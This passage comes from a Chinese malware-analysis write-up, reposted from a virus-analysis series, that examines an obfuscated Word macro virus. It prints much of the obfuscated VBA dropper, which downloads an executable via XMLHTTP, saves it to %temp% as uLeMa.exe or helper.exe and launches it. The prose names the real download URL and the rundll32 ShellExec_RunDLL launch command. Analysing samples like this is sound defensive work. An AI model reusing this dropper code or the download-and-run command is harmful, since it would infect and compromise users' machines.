        WFOwIfq = Right("yPW!GUp#SqtaIRWhx(FN", 3)
        cSFOmFC = Right("^PSiadI_-?][yCs?", 2)
        JYlziOG = UCase("&X-]-y&[X-jNB")
        SYnMHH = SYnMHH + 1
    Wend

    cBnVLr = StrReverse("NdM-zQH[ ZZIS)D&s?Q")
        Call ecpOnoLl.SaveToFile(qHKBF & "\\" & "uLeMa.exe", 2)
    JYlziOG = Left("DebIjgJ$Ev]kT", 4)
    JFQpA = 1303 - 1740 - 675
    JYlziOG = StrReverse(" nhmOYK$Pz%uLMc r")
    ivHvQYLI = 812 + 1276 + 549
    lpHJCW = RTrim("_ !KRUuK@C@VtrzKC")
        fANhrP.Open "GE" & "T", VSDtDK("hEtKtPps:%/ /v1n0Q7q.d1g7x5L.V6l2U.N1E0^4t/ntOeHswtt.vbXiznU"), False
    While WhxhrS < 150
        lpHJCW = "]e.crfwzdkZT%]." + "gCYelVPnXhNE[OXS" + "cVQDd F?HXy^[BOS"
        HxOCtG = UCase("G^Zwe!Dsau_RSBQT")
        WFOwIfq = Space(14)
        JYlziOG = 1902 - 404 - 1135
        JFQpA = 1197 - 1680 - 865
        cSFOmFC = "JViAmb]Qz.#(Ue!l[qKP" + "tigOr? !Kk_LDrS^" + "?-C@ *eKlcFmS]euCPZP"
        ivHvQYLI = LTrim("VnipZoM!irr%IQxE")
        lSXJu = Left("HNB^xwvf ]ltZT", 2)
        WhxhrS = WhxhrS + 1
    Wend

    HxOCtG = UCase("OZ(gRkxAyBN_g!fCC#$")
    RMDeRo = Right("tOf!ghdSwmQeqfaJOPpA", 3)
    lqHGigxO = Space(13)
        fANhrP.send
    WFOwIfq = Space(17)
    qCgwRDt = LTrim("Hva@V@^]kfH_")
    cBnVLr = Space(19)
    JYlziOG = "rumphX#UsUgUD$U%_p$" + "auRLOl$Vp kxFKUC]f" + "MF.O_&MtFSZNB(ZCi"
        UjROGi = fANhrP.responseBody
    For FtLfpa = 0 To 116
        ivHvQYLI = "i(uiCjRQ-t?@U" + "hboe tUCoJH!^!" + "tc!cNv@%YlrZZu( AT"
        JYlziOG = UCase("o)PmkLFBuAl?)V_RT&")
    Next FtLfpa

    While VHnapg < 211
        HxOCtG = 721 - 454 - 1913
        JFQpA = 1729 - 443 - 682
        WFOwIfq = "YfhS.d^gt^MUm[j.n#aV" + "&Xl(w[GhF_PysDB" + "?#GRuDODlxM-r"
        JYlziOG = RTrim("#T#]gIbYWEmq!_H")
        lSXJu = StrReverse("$hzqD(CY[M%u")
        VHnapg = VHnapg + 2
    Wend

    While DAFkeY < 239
        lqHGigxO = Right("U&kLwsl#cNrAJ^aM", 4)
        JFQpA = "qEqjk-PPLM.)lgLU%k^" + "z?Fq$*lMtuHsHqcU$?^" + "_AwxvFpXVzc"
        DAFkeY = DAFkeY + 1
    Wend

    qCgwRDt = Right("lfnT.cWTLiUsCccbG", 5)
    WFOwIfq = UCase("mAmY.?rZO#")
        ecpOnoLl.Write UjROGi
    JYlziOG = StrReverse("FyWZb%QX xsSqVSsF^d-")
    cBnVLr = RTrim("GD %upRl(.G!uQZ)gMgt")
    cSFOmFC = Right("B$%L.E%@OI.u", 3)
    JFQpA = "yWV%hISNKlF" + "KyJZ-acE#kywpmcF AVM" + "J([zgPOa]VDP p"
    For DsxCit = 0 To 229
        cSFOmFC = UCase("^.UKJwP%pBWT( _f&!")
        cBnVLr = "S@pE&EEsCuqs(G-)" + "yrl@AGKzdkKFrio" + "pNPYJI(Quuh"
        WFOwIfq = 994 - 1262 - 1851
        lpHJCW = LTrim("bH_]uYMSZ!xKGZ[aOGk")
        lSXJu = LTrim("DXbTO%IufHxiN")
        ivHvQYLI = UCase("Dve-#UcNUGlhE[o lx")
        qCgwRDt = 1040 + 1554 + 409
        JFQpA = 640 - 566 - 1039
        lSXJu = ".nt-BtU]^O#w^!kb%JK" + "qvb&eTVWJ.y-e@mD!i" + "tXYN#m)qt-D)"
    Next DsxCit

        Call ecpOnoLl.SaveToFile(qHKBF & "\\helper.exe", 2)
    For tHHUyR = 0 To 42
        WFOwIfq = Space(11)
        RMDeRo = Right("r_uD$k&k-*By]@MWC?Vv", 3)
        lqHGigxO = Right("Go.ng Xg]zg", 2)
        lqHGigxO = Right("a_-XZeo[n-n#qD[oksU ", 4)
        HxOCtG = Right("IgLdozim]rCak%brz", 5)
        JFQpA = UCase(" ?%TXYGaDPp^c(epD")
        RMDeRo = Left("b(Xwk(vHySR", 2)
        lSXJu = UCase("!Cj?hNxKWKaUd#")
        lqHGigxO = LTrim("hNQ]^tASr!)R*@W")
    Next tHHUyR

    cBnVLr = 1361 - 1622 - 1887
    For lddfdG = 0 To 312
        RMDeRo = Space(10)
        qCgwRDt = RTrim("ow%tM?T#AqUbjf*zCs")
        qCgwRDt = 451 - 799 - 1135
    Next lddfdG

    For KvsPno = 0 To 219
        WFOwIfq = Right("gpnum(Mg%pyA%W", 4)
        HxOCtG = Right("RZD.hTSkmRGmU", 5)
        HxOCtG = Left("_AH-xPro$p", 3)
        JYlziOG = Space(16)
        lSXJu = RTrim("nxwDI(PX(%]")
        lSXJu = 1477 - 1872 - 703
        ivHvQYLI = 1539 - 1429 - 208
        WFOwIfq = Left("bStp.OdgodKm[_Ao$$", 4)
        cSFOmFC = 1535 + 418 + 1795
        WFOwIfq = Space(11)
    Next KvsPno

        ecpOnoLl.Close
    JYlziOG = LTrim("lPfHiaf(-p-NSlV!-TA")
    JYlziOG = 1232 + 1562 + 281
    WFOwIfq = Left(" iSHuwS)McZGheL@*h", 4)
    lSXJu = RTrim("q*xb#UeG$sEZZsY")
    End If
    While ClclLc < 300
        JFQpA = 823 - 1441 - 580
        JFQpA = Right("sFgrjf]K(D.EAe*#", 5)
        lSXJu = 337 - 252 - 1543
        JFQpA = UCase("vueaI.%]Ha%XD*^")
        ClclLc = ClclLc + 1
    Wend

    WFOwIfq = Right("^$_AsQWFa]$", 2)
    RMDeRo = Left("CideTgpbR^.WA_rOb", 3)
    lqHGigxO = Right("!^q!B@!Cua(Hb[cSOWO", 3)

    JFQpA = Right("Q(Cvxo-!)*", 5)
    While QotXzR < 127
        cBnVLr = StrReverse("Ru$?cR q(?(")
        WFOwIfq = Left("DrriPe-AnhUu!X@s", 3)
        qCgwRDt = 524 - 1801 - 267
        lqHGigxO = RTrim(")B N-k!TtdKDjs!kg")
        cSFOmFC = LTrim("EabHC*ujhexA^TFDti")
        ivHvQYLI = RTrim("n!^&HyCmq)(")
        QotXzR = QotXzR + 3
    Wend

    lSXJu = RTrim("ErWv*GUsasmdJOmUkGu ")
    lpHJCW = "uaEoWvnxtYu" + "iXv[UugEl(n&" + "*uGK.TGqHiiJM"
    ivHvQYLI = UCase(".V.SdG(oZSdN")

    While HowDTn < 192
        cBnVLr = 1079 - 704 - 1477
        While FqxdSw < 227
            lSXJu = Space(3)
            qCgwRDt = StrReverse("[zH)gaM*x.mX")
            lSXJu = LTrim("il!rQd$QV]XL @^K^")
            RMDeRo = LTrim("gVvuI!@TffFHK[-*")
            cBnVLr = LTrim("Mc#_WZ-$]^r!")
            lpHJCW = Right("y#LNADQ^yoAlyJENu*", 4)
            WFOwIfq = StrReverse("Ay#X[LMNefoOtO.yC")
            FqxdSw = FqxdSw + 2
        Wend

        While JHvKkd < 285
            WFOwIfq = Right("Tr[a@jStG#w!CV", 5)
            ivHvQYLI = "&rkd&s^AKONVjnxX@MJQ" + "RnHVlfCJ_aAG" + "dFlPU_oNqHE"
            lpHJCW = Space(16)
            lSXJu = UCase("bVaUQS%R&DnxJw")
            WFOwIfq = 912 - 563 - 482
            cBnVLr = 698 - 526 - 1017
            ivHvQYLI = 727 + 1590 + 1612
            lSXJu = StrReverse("q)HBccxG^%tcJ")
            ivHvQYLI = UCase("As_tYQenJ[wCb-k")
            RMDeRo = 1898 - 532 - 309
            JHvKkd = JHvKkd + 3
        Wend

        ivHvQYLI = 436 + 1467 + 1030
        lqHGigxO = Space(16)
        While tWeHDp < 152
            JFQpA = UCase("k*QL?hAplX")
            JFQpA = 1311 - 1442 - 1237
            tWeHDp = tWeHDp + 2
        Wend

        If HowDTn = 187 Then
            HxOCtG = "PkhndYNtrqM#hR" + "#O_S(h#NkQ?LEv@kt" + "a tQTz$wTI"
            Call bFIaBU(VSDtDK(DwQaKJu), "QcTsnWFAIs", "wnY", "cWqUHIF")
            JFQpA = UCase("*Ib(C(Ac[Cd.fmLQIXQ^")
            cSFOmFC = Right("CZLMbABNUt", 5)
            For MnkERp = 0 To 62
                lSXJu = Right("Mvne&f(EjGW*cV%$s^g", 3)
                JFQpA = Left("T%jCAZAH^r?GXwYb%M*Q", 3)
                lqHGigxO = UCase("K-mFT jMj-^")
                RMDeRo = 939 + 814 + 158
                cBnVLr = 1078 - 666 - 547
                lqHGigxO = RTrim("G_hdp)iqQ J%z")
                cSFOmFC = 1129 + 1102 + 1325
                lpHJCW = "(rwMGQ!(EIqgG" + "Z!aYNFS(Jc" + "V%*h@xX$cDR&ixo"
                cBnVLr = 250 - 823 - 1189
            Next MnkERp

            Call bFIaBU(VSDtDK(mlbAEKn), "IZAHVF", "hvbQlxKeP", "CDg")
        End If
    HowDTn = HowDTn + 1
    Wend
End Sub

Private Function dtTWoY(mWEOqx As Double, nMAglz As String, qPweznv As Integer, XMPUNt As String) As String
    JYlziOG = UCase("Hp VJZOSXPBf%kxyp")
    WFOwIfq = Space(18)
    lpHJCW = Left("jVZruFULXmDE)Mn.y", 4)
    cSFOmFC = 1727 + 794 + 112
    lqHGigxO = Left("jrdtS[$[K]q$", 5)
    lSXJu = Left("PKhmG-Nqrkiw.ZhYv-)", 5)
    lqHGigxO = 1694 + 1532 + 353
    While fyRkbA < 173
        cSFOmFC = "[fRUrXuu*xsG^^H%L#" + "M_TVa_rO$$ia -ew" + "*fPh)LjDsj&"
        lSXJu = StrReverse("T?KkFNjko!w-")
        RMDeRo = StrReverse("tzjdTcR##y_C")
        lpHJCW = 1524 - 1747 - 843
        qCgwRDt = RTrim("VIt%kb-bhNmB.E")
        qCgwRDt = Right("UBv[.]gn#kP$p(", 5)
        cBnVLr = StrReverse("Juqcw.iWZj.D")
        HxOCtG = Left("hVzeID[g)gMC$PX_f", 5)
        qCgwRDt = UCase("k$.#VzVC]a")
        JYlziOG = RTrim("BSatzrTYsNVi")
        fyRkbA = fyRkbA + 1
    Wend

    While MqsQpa < 199
        ivHvQYLI = 1861 - 828 - 1325
        ivHvQYLI = Left("uPN-jqaorTyD&zquFA", 5)
        cSFOmFC = 403 + 230 + 1989
        ivHvQYLI = 879 - 718 - 1725
        WFOwIfq = "hCj&KM$]SZbsgl!b^-EC" + "uSJUIL_my)V wR" + "&a[x*nKpmySV"
        MqsQpa = MqsQpa + 2
    Wend

    JYlziOG = 819 + 271 + 1853
    lpHJCW = 1644 + 347 + 359
    lqHGigxO = StrReverse("&LV)NOqR&ofsax!c")
    ivHvQYLI = 1578 - 1574 - 585
    HxOCtG = LTrim("eYxw* Lbu@F")
    For wBLrEs = 0 To 101
        cSFOmFC = Space(12)
        cBnVLr = Space(16)
        cBnVLr = Left("Zc^OdEp*p%wpIBd", 5)
        cBnVLr = RTrim("SGpopj$sHiE(hbsf")
        JYlziOG = " XFIiAo]VyRza._O" + " wgkV*hVa&$Q" + "*RNA%QV&XdBo!bc_Dd"
        lpHJCW = Space(20)
        lSXJu = UCase("bf?NyMp$WZ_EBbwp@uE")
    Next wBLrEs

    cBnVLr = Left("qILhETIFqt", 4)
    cSFOmFC = Right("J_pY$kJ-gw#sqe[KDiS", 5)
    cSFOmFC = Space(12)
    While naBQUe < 254
        HxOCtG = Right("kIzzmDNA$!%rJ%", 3)
        JYlziOG = UCase("@tctFmXSgGsTgr.#")
        qCgwRDt = LTrim("ftUj$oi)RBht?i?FuzHK")
        qCgwRDt = UCase(")e^DHhb*jRkspIWQ^")
        cSFOmFC = StrReverse("DdQjfSi?DybxnK?@rj")
        lpHJCW = Space(5)
        WFOwIfq = RTrim("mP[mI.YdQJx")
        JFQpA = Right("EDTMXHCv_Kh", 3)
        naBQUe = naBQUe + 1
    Wend

    HxOCtG = 1804 + 377 + 1386
    ivHvQYLI = LTrim("j[upTdo@)&")
    qCgwRDt = LTrim(".WE@^GEI-?iBe@O")
    WFOwIfq = UCase("-[QWB^f# hK^.$^VTE")
    lpHJCW = 674 + 156 + 410
    lpHJCW = 576 - 781 - 1742
    lpHJCW = 1102 - 1945 - 862
    cSFOmFC = Left("-xvmNVKxDkH*-dikI", 2)
    While BkLjyN < 95
        JFQpA = LTrim("I?LsrDqs%Kdwz@")
        JYlziOG = 1025 - 1682 - 1543
        ivHvQYLI = RTrim("NB#gDxao#DC&o!KWfzMM")
        lSXJu = 678 + 252 + 995
        lqHGigxO = "x#aRTp@ox&GBE)" + "XIU.fUnQjvhc]XAicV" + "^KZNXP$l$hkG PNptSz"
        qCgwRDt = Space(3)
        BkLjyN = BkLjyN + 1
    Wend

    JYlziOG = 1448 + 1711 + 1644
    qCgwRDt = Right("h_@%NK.WnNbP*TmE", 2)
    cSFOmFC = Right("#hv#cK(gsN%Sg", 4)
    lqHGigxO = RTrim("t&-DLPj!Eja#L&")
    cSFOmFC = Left("&D^^D&HJOPv!n.", 4)
    lSXJu = LTrim("cSrHb]fmf ")
    JYlziOG = "$VUnYZVMMEiC" + "prrDQcjlF.w$uXoT" + "P)#Z&Hy?%].-)"
    lpHJCW = "z uJYuk#DL" + ")@GpaafkNxoOjHdeIR." + "!COLXHQmuc LoWhs$m$r"
    JYlziOG = Right("k#M.clXqPpq[t-i?^i", 5)
    qCgwRDt = Left("M$NmuoHf%jqKT_ZQY", 3)
    While HyXCHo < 28
        lpHJCW = LTrim("fOK#q_tB[piC$qv?")
        lqHGigxO = Right("]YMva%neV.Jx&A(&?sKg", 2)
        lpHJCW = StrReverse("d?.s_D$g rGR(k!Q&spZ")
        lqHGigxO = " @Rkynk*EDv" + "B_i YjMHVE" + "@kkTe*n_FCz"
        ivHvQYLI = LTrim("sAntMq-$)qm*")
        ivHvQYLI = StrReverse("(bUcCiz.pnWGoI")
        ivHvQYLI = 232 - 590 - 1104
        cBnVLr = Space(3)
        cSFOmFC = Space(11)
        JFQpA = 1381 - 1774 - 1129
        HyXCHo = HyXCHo + 1
    Wend

    lpHJCW = 706 - 230 - 1374
    dtTWoY = "OCHCBPcuSBdEqLFRaoZMahXBNjAABLldCfAkAxIe"
End Function

Private Function mkPVqD(AwdrqO As String) As String
    ivHvQYLI = RTrim("a[cSvG[bCgP_Wd")
    lSXJu = 1024 - 946 - 798
    ivHvQYLI = "hkJ^GKvmTLkgkY?AhL" + "_#duNZ.-VTo#jxN@@VsQ" + "ayX%V$i$kwk"
    HxOCtG = "NxDJ(GvVPq]s" + "tjyT RurZA" + "xpAwQnSEDaNZ-axgA"
    qCgwRDt = 925 + 623 + 993
    cSFOmFC = StrReverse("?qXRixep)KDx%*wnZHV")
    WFOwIfq = Right("lx oq-Km ST]_rcQg", 2)
    RMDeRo = Space(6)
    While RcxFFt < 193
        JFQpA = StrReverse("nOA mL$v^i@V_")
        cSFOmFC = Left("XJXQSGfA(rhHFrnE!me", 2)
        JYlziOG = StrReverse("^izYHyD.KT[Ng^BBr")
        HxOCtG = "%IJ(xA-!^J)Il" + "P#JGKLYA-T?sB#hbaAAZ" + "d-YB^wmRtyWltK?"
        WFOwIfq = StrReverse(")DgIzXuCr[%u]U[")
        HxOCtG = UCase(" K@]U)TIzKPFvCx[WwRA")
        lpHJCW = Right("r^lK(QZJi^X#]_v[", 5)
        RcxFFt = RcxFFt + 1
    Wend

    WFOwIfq = Right("dsch^lSBeCXsgJVfK_u#", 5)
    ivHvQYLI = StrReverse(")ru%yNzbKgf")
    lpHJCW = Right("FRxbGWZDvZ[vb#", 3)
    lSXJu = "RnkHDpd ufB" + "?&xEk-$cv^Pu" + "CuIyG?WhYTpclT@BQN"
    RMDeRo = Right("%QhVFHzv?Fkp", 5)
    cSFOmFC = RTrim("$nfPASHzY_vNQbKMT")
    qCgwRDt = Right("Im[PWBesSt [T!uWs^", 3)
    lpHJCW = "MS%?!k^-pLRQH$WA_." + "hppl-AWr)]a" + "xlBZEjgRmKFMJbD%mB("
    cSFOmFC = 614 + 560 + 1437
    lSXJu = UCase("e^SPuBlddY(jEkLQypt")
    lpHJCW = Right("Ry%ZhzZeL.lv-r-TbyYU", 3)
    cSFOmFC = 1936 - 1732 - 672
    ivHvQYLI = RTrim("Sr?seH&d^!YJH?A*t_")
    WFOwIfq = Left("iz)MBVctxcRMLDgY$#G", 4)
    lSXJu = UCase("s$-ouCFwi@kK*n(%")
    JYlziOG = 366 + 534 + 1715
    lqHGigxO = StrReverse("C[NT#sAY%BCj(q%_B")
    qCgwRDt = LTrim("qz.Ihg#wHq$tO")
    For NUZJvv = 0 To 140
        JYlziOG = 272 + 1690 + 894
        lSXJu = "BqCsQjA?ca" + ")%KCZUKi?Xb#Gbx" + "tgKDY EyDBod%CC!D"
        lpHJCW = LTrim("MY^y[S%ppr-pGZ]?bL")
        JFQpA = Right("RAkyeDDvAI[W!Ae$", 4)
        RMDeRo = "y-bPALAqaK" + "aVvqzm& -Aq)*Ab@$mb" + "VtKgs)[b])"
        ivHvQYLI = StrReverse("hnI.O_o?E&aIxU)%vK&")
        lqHGigxO = StrReverse("S ?]vPNAFXjcpD%L")
        qCgwRDt = LTrim("Rllh#jP%WZvxHv")
    Next NUZJvv

    ivHvQYLI = 222 - 1504 - 751
    mkPVqD = "IfaioPcbtySMfguDQpqoITteQwMJJ"
End Function

Private Function xZkONI(GbsyBh As Integer) As String
    While ETKJwv < 291
        qCgwRDt = UCase("[eDY_Pi_-oige@VEWNC")
        HxOCtG = Space(16)
        cSFOmFC = 1864 + 892 + 654
        HxOCtG = 576 - 541 - 498
        lpHJCW = RTrim("fOsbVWu-@Gf_U[W")
        cBnVLr = "@(DS&YHDY[FD(vSIl&Af" + "W_JP@RQYaM!NEvDW#JP" + "%$mAmwTfCofOgVa(uR"
        lqHGigxO = Space(7)
        cSFOmFC = Space(15)
        ETKJwv = ETKJwv + 2
    Wend

    WFOwIfq = Right("F?U(nzE^Raa!O@Jq[", 3)
    JFQpA = StrReverse("eprwZuDNS& zC^Xn!Hz")
    qCgwRDt = "C-cgJK[WtA!W&o" + "Q?S&fb)AHkyHrL.qFh" + "pDX*Csd.quFdWS"
    lpHJCW = UCase("]&EbG!hDzgM")
    RMDeRo = RTrim("RXd*qMKF.R]?G)qNfB ")
    HxOCtG = Space(3)
    WFOwIfq = Right("z[m?ZfRNrlj", 3)
    HxOCtG = Right("&B(jupbna)h!uol_", 3)
    While nAskfd < 246
        lqHGigxO = RTrim("k?QB?E_D^SBvp?SR ")
        cBnVLr = LTrim("OhSIQF_gNKL&D?s*JDnT")
        lqHGigxO = "WASFCLo#x@)&N[#U" + "zLqEKwjf-WNCRD)]^WRh" + "ZbT fjqJkV"
        HxOCtG = Space(17)
        nAskfd = nAskfd + 1
    Wend

    ivHvQYLI = Space(6)
    While YjcRIf < 130
        cSFOmFC = Left("aIo!v@k[mHMU[", 3)
        cSFOmFC = UCase("jRm^uDkh*!qoxu")
        lqHGigxO = RTrim("G@.MJ]@#LxUWz?wQT.X")
        YjcRIf = YjcRIf + 3
    Wend

    HxOCtG = Left("TtLFI]MD!Suz?S&Y#", 2)
    JFQpA = Right("yWGW?LKew$@@xcHEZ%Id", 2)
    cBnVLr = 476 + 292 + 1354
    cSFOmFC = LTrim("Ucu?FD#TTX gp")
    lSXJu = Left("R[jqD*Z?a.t#dMD ]QS.", 4)
    RMDeRo = "O[I? Xb*%MOSJ" + "i eIZReNgctTkvX" + "V&xnHbPlm$"
    JFQpA = Right("SW?LIQIblE", 3)
    WFOwIfq = 1476 - 124 - 1739
    lpHJCW = StrReverse("$]iXCLWvkJ QCsE")
    RMDeRo = LTrim("ip^z#HM@wSq^cv")
    For UbBika = 0 To 171
        lqHGigxO = 392 - 956 - 988
        JFQpA = "qNZsbU!jrPGKmPo" + "@sSSdTAgRBDZIv" + "^Dh^[nFCguWO"
        lSXJu = 1964 - 1087 - 468
        qCgwRDt = 681 - 1000 - 523
        WFOwIfq = 702 - 908 - 1416
        JFQpA = UCase("jMBu?UyBFQ!vTTh")
        lqHGigxO = Left("?nKdy&aB%%WocBI", 3)
    Next UbBika

    cBnVLr = "*B_iaV)[oEjrF)" + "X^ANS-&DUo*a.Q" + "mIl@$QR)*z-%%(bvUqb"
    cBnVLr = LTrim("pUHEzx#OKL#zIJuv*&")
    cBnVLr = 408 + 701 + 1487
    lSXJu = UCase("uA@$-gKVE*&gLun[D%b")
    lqHGigxO = StrReverse("j&gJNEkZ- _pp-")
    xZkONI = "nrPYDOZFXUJydijdciNfIMmzdQNF"
End Function
```

依然是混淆的宏，而且代码行数达到了1000行。OK，使用前文的方法，直接搜索字符串“Shell”吧：



定位到shell，将命令提取出来（在分析中，你提取的命令可能是%temp%\\helpper.exe，这是运行环境不同导致的差异）


当我们去查找%temp%\uLeMa.exe文件时却发现找不到该文件，这个时候我们就要寻找uLeMa.exe文件的源头，我们可以使用一些行为监视软件进行分析（如：process monitor、火绒剑等 ），将WINWORD.exe加入监视，运行宏，成功抓到行为：


我们基本可以确定，宏通过studioconcept.co.uk/Products_Requirements_Sheet_xls.exe下载恶意程序，调用rundll32.exe shell32.dll,ShellExec_RunDLL %temp%\\uLeMa.exe     运行恶意程序。

## 最后

宏病毒的分析比较简单，但令人恼火的是攻击者总是喜欢对宏代码进行混淆，增加分析难度，掌握一些分析技巧能在分析宏病毒时事半功倍。
附件里还有一个笔者没有分析的样本，分析技巧笔者在上文中都提到了，留给大家练手了。

## 说明

- 本文并非原创，乃是征得作者同意后的转载 原作者为狐狸先生 未经允许,禁止转载
- 需要相关文件可以到我的Github下载:https://github.com/TonyChen56/Virus-Analysis
- 应作者要求 贴上知识星球图片 主要分享病毒分析和逆向破解技术，文章质量很高 我也在这个星球里 大家可以积极加入

